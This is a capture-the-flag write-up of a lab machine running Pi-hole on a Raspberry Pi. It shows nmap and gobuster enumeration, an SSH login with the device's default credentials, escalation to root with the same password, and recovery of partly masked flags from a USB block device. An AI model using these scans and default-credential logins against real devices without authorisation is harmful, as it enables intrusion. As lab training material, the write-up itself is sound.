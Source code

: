 
![image](https://user-images.githubusercontent.com/105310322/187500795-e2801f1b-8201-400d-9017-01895b8492b9.png)

### Tools: nmap, gobuster, ssh

### Vulnerabilities: Pi-Hole, Default credentials

Nmap shows us there is a webpage open.

The page is blank but a connection is established.

```console
└──╼ [★]$ nmap -sC -A -sV 10.129.50.166
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 16:29 BST
Nmap scan report for 10.129.50.166
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

Running gobuster shows an admin and versions page we can check out.

```console
└──╼ [★]$ gobuster dir -u 10.129.50.166 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.50.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/30 16:33:18 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.129.50.166/admin/]
/versions             (Status: 200) [Size: 18]                                 
                                                                               
===============================================================
2022/08/30 16:33:31 Finished
===============================================================
```
Curl also reveals what the blank page is.

```console
└──╼ [★]$ curl -I 10.129.50.166
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Tue, 30 Aug 2022 15:33:42 GMT
Server: lighttpd/1.4.35
```
Here we have the pi-hole admin page. This is our first hint that the page is being ran on a raspberry pi. Lets test some default credentials using the ssh port that nmap found.

![image](https://user-images.githubusercontent.com/105310322/187496695-09c93f38-309e-4c34-b6bf-847691968ea7.png)

A quick google search shows that the default credentials for a raspberry pi are User=pi and Pass=raspberry

Boom we are in pretty quickly!

```console
└──╼ [★]$ ssh pi@10.129.50.166
The authenticity of host '10.129.50.166 (10.129.50.166)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.50.166' (ECDSA) to the list of known hosts.
pi@10.129.50.166's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $ 
```
Full sudo power!? but before I tried that, I did su root with the same default password.

EASY DAY! Already got root and the user flag!

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ su root
Password: 
root@raspberrypi:/home/pi# 
```
```console
root@raspberrypi:/home/pi/Desktop# cat user.txt
ff83****************************
```

It was too good to be true :(
At least we got our next hint :)

The root.txt is hiding in a usb stick so lets see if we can find it.

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~# 
```
lsblk shows us where we can find the usbstick however there is not root.txt found in /media

The drive is located at /dev/sdb

```console
root@raspberrypi:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
root@raspberrypi:/# 
```
After using cat on sdb if pops alot of incomprehensible code but at the bottom we can see a string of characters resembling our root flag!

```console
root@raspberrypi:/dev# cat sdb
�|}*,.������+-���3d3e****************************
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/dev# 
```

If using cat to read the sdb file did not work then my next option would have been to extract or mount the usb to try and read the files but luckily the important information was all there.

GG!!
